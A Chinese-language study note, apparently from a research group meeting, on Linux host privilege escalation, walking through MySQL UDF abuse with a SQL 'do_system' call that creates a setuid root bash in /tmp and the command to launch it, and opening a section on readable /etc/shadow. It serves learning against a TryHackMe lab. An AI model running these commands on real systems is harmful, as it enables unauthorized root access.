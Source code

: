 ```yaml
---
title: DNS第四周调研
date: 2023-2-2 12:15:37
tags: 
    - 主机提权
    - 域名解析服务扰乱
    - 组会 
categories: 组会
toc: true
language: zh-CN
---
```


## 主机提权

- [参考](https://zhuanlan.zhihu.com/p/432182767)
- [蓝桥杯教程](https://zhuanlan.zhihu.com/p/304572787)
- [tryHackme](https://tryhackme.com/room/linuxprivesc)，这是一个靶场，提供了21个主机提权的task

### UDF提权

1. UDF全名user-defined function capability

2. 它可以通过对MYSQL中的函数调用连接系统上可用的系统动态库


#### UDF攻击条件

1. 必须获得MYSQL的账号最好是root，然后去到MYSQL里面检查是否拥有insert插入权限，检查命令: `select User,Host from user where Insert_priv='Y';`是否有输出
2. 可以更改数据库当然拿到root最好
3. 允许拷贝文件进来(检查命令: `show variables like 'local_infile';`结果为ON才行)

#### 攻击流程

1. 首先攻进去并且获得一个MYSQL数据库账号且权限比较高
2. 上传一个恶意的动态库文件
3. 在进入MYSQL以后通过insert函数把动态库文件存储进来
4. 搭建连接
5. 执行
6. 复现过程,首先需要准备好文件，kali上已有(raptor_udf2.so)
7. 创建do_system函数
8. 执行函数 
```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
9.  启动这个bash

```sh
/tmp/rootbash -p
```

### 可读的/etc/shadow文件

